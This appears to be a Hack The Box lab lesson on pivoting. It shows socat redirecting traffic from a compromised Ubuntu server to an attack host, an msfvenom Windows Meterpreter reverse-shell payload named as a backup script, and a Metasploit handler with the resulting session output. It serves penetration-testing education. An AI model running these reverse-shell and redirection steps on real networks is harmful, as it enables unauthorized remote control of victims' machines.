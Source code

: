 [Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling. 
* It acts as a redirector that can listen on one host and port and forward that data to another IP address and port. 
* We can start Metasploit's listener using the same command mentioned in the last section on our attack host, and we can start `socat` on the Ubuntu server.
#### Starting Socat Listener

```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

Socat will listen on localhost on port `8080` and forward all the traffic to port `80` on our attack host (10.10.14.18). 
* Once our redirector is configured, we can create a payload that will connect back to our redirector, which is running on our Ubuntu server. 
* We will also start a listener on our attack host because as soon as socat receives a connection from a target, it will redirect all the traffic to our attack host's listener, where we would be getting a shell.

#### Creating the Windows Payload

Socat Redirection with a Reverse Shell

```shell-session
canklesmaks@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 743 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe
```

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.

#### Starting MSF Console

Socat Redirection with a Reverse Shell

```shell-session
canklesmaks@htb[/htb]$ sudo msfconsole

<SNIP>
```

#### Configuring & Starting the multi/handler

Socat Redirection with a Reverse Shell

```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

We can test this by running our payload on the windows host again, and we should see a network connection from the Ubuntu server this time.

#### Establishing the Meterpreter Session

Socat Redirection with a Reverse Shell

```shell-session
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1 ) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```